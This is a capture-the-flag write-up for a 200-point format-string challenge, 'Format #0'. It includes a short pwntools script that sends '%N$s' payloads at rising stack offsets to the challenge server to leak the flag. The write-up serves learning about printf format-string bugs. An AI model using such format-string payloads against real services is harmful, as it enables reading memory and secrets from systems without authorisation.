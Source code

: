 # Format #0

## Binary Exploitation - Points: 200

> Someone didn't tell Chaddha not to give user input as the first argument to `printf()` - use it to leak the flag!
>
> 
>
> Connect at `shell.2019.nactf.com:31782`
>
> [format-0.c](format-0.c)
>
> [format-0](format-0)
>

The script uses a format string to print out the contents on the stack with increasing offsets. At some point it will print out the buffer that contains the flag.

```python
from pwn import *

for i in range(50):
	r = remote('ingress.cluster.nactf.com', 31782)
	r.sendline('%{}$s'.format(i))
	print r.recvall()
```
